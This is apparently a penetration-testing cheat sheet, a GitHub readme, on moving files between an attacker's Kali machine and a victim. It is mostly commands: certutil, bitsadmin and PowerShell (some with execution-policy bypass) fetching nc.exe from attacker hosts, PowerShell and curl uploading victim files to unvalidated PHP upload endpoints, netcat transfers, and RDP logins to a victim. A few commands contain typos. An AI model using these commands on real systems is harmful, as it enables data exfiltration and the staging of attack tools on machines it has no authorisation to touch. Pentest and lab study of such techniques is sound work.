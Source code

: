 # File transfer

## Http

### Download

source: https://medium.com/@PenTest_duck/almost-all-the-ways-to-file-transfer-1bd6bf710d65

#### Python

```
python -m http.server 8080
```

#### Apache

```
mv somefile /var/www/html
systemctl start apache2
```

### Upload

OffSec: https://github.com/ThomasBucaioni/pentools/blob/main/filetransfer/readme.md#uploads-to-kali

Other sources: 
- https://infosecwriteups.com/tip-uploading-files-from-windows-to-kali-using-php-63aadde872a9
- https://davidhamann.de/2019/04/12/powershell-invoke-webrequest-by-example/
- https://stackoverflow.com/questions/22491129/how-to-send-multipart-form-data-with-powershell-invoke-restmethod

#### Php on Kali

Make a `upload.php` file in `/var/www/html/`:
```
vim /var/www/html/upload.php
```
as
```
<?php
  $target_dir = "uploads/";
  $target_file = $target_dir . basename($_FILES["targetfile"]["name"]);
  move_uploaded_file($_FILES["targetfile"]["tmp_name"], $target_file)
?>
```
then make a `upload.html` file in `/var/www/html/`:
```
vim /var/www/html/upload.html
```
as
```
<html>
<head></head>
    <body>
        <form action="upload.php" method="POST" enctype="multipart/form-data">
            <br><br>
            Choose a file:<br>
            <input type="file" name="targetfile"/><br>
            <input type="submit" name="submit" value="upload"/>
        </form>
    </body>
</html>
```
then make the `uploads` directory with write rights:
```
mkdir /var/www/html/uploads
chown www-data.www-data /var/www/html/uploads
chmod766 /var/www/html/uploads
```
and start the `apache2` service:
```
systemctl start apache2
```

#### On Windows

```
powershell -nop -exec bypass Invoke-RestMethod -Uri http://IpAtt/upload.php -Method Post -Infile 'c:\path\to\file.txt'
```
or
```
curl -H Content-Type:"multipart/form-data" --form targetfile=@"c:\path\to\file.txt" -X Post -v http://IpAtt/upload.php
```
or
```
$fieldName = 'targetfile' # name of the field in upload.php
$filePath = 'C:\full\path\to\file.txt' # full path...
$url = 'http://AttackerIpAddress/upload.php'

Add-Type -AssemblyName 'System.Net.Http'

$client = New-Object System.Net.Http.HttpClient
$content = New-Object System.Net.Http.MultipartFormDataContent
$fileStream = [System.IO.File]::OpenRead($filePath)
$fileName = [System.IO.Path]::GetFileName($filePath)
$fileContent = New-Object System.Net.Http.StreamContent($fileStream)
$content.Add($fileContent, $fieldName, $fileName)
$result = $client.PostAsync($url, $content).Result
```

#### Http on another Apache2 server

```
vim upload.html

<html>
  <head></head>
  <body>
    <form action="http://IpAtt/upload.php" method="POST" enctype="multipart/form-data">
      <br><br>
      Choose a file: <br>
      <input type="file" name="targetfile"><br>
      <input type="sumbit" name="submit" value="upload">
    </form>
  </body>
</html>
```
To upload on a browser at `http://AttackerIpAddress/upload.html`

## Other Linux tools

### Netcat `nc`

```
listener$ nc -lnvp 4444 > received.txt
sender$ nc $ListenerIp 4444 tosend.txt
```

### FTP

On the client:
```
ftp_client$ ftp $FtpServerIp
    Name: anonymous
    Password: 
    230 Login successful.
    ftp> 
```
FTP commands:
- `ls`
- `get somefile.txt`
- `put someotherfile.txt`
- `quit`
- `ascii`
- `binary`: https://knowledge.broadcom.com/external/article/28212/ftp-ascii-vs-binary-mode-what-it-means.html


## LolBas

Connection with `xfreerdp`:
```
xfreerdp +clipboard /u:myuser /p:mypass /v:VictimIP
```

### Cmd shell

#### Certutil

Simpler:
```
cerutils -urlcache -split -f http://AttackerApacheIP/nc.exe nc.exe
```

#### Bitsadmin

Longer:
```
bitsadmin /create MyDownload
bitsadmin /addfile MyDownload http://AttackerIP/nc.exe C:\Users\myuser\Downloads\nc.exe
bitsadmin /resume MyDownload
bitsadmin /info MyDownload /verbose
bitsadmin /complete MyDownload
```

### Powershell

#### WebClient API

Download script: `PS> type .\mywgetscript.ps1`
```
$webclient = New-Object System.Net.WebClient
$url = "http://$AttackerIP/nc.exe"
$file = "nc.exe"
$webclient.DownloadFile($url,$file)
```
and run it:
```
PS> powershell.exe -ExecutePolicy Bypass -Nologo -NonInteractive -NoProfile -File .\mywgetscript.ps1
```
or as a one-liner:
```
PS> powershell.exe (New-Object System.Net.WebClient).DownloadFile('http://$AttackerIp/nc.exe', 'nc.exe')
```

#### WebRequest API

Native request:
```
PS> Invoke-WebRequest -URI http://$AttackerIP/nc.exe -OutFile nc.exe
```
or with the alias `wget`:
```
PS> wget http://$AttackerIp/nc.exe -o nc.exe
```

#### Uploads to Kali

On Kali, at `/var/www/html/uploadForWindows.php`:
```
<?php 
$uploaddir = '/var/www/html/uploads/';
$uploadfile = $uploaddir . $_FILES['file']['name'];
move_uploaded_file($_FILES['file']['tmp_name'], $uploadfile)
?>
```
and in Powershell:
```
PS> powershell (New-Object System.Net.WebClient).UploadFile('http://$AttackerIp/uploadForWindows.php', 'localfileonwindows.txt')
```

## File recovery

```
sudo foremost -v -q -t jpg -i /dev/sdaX -o ./myrecoverydir
```
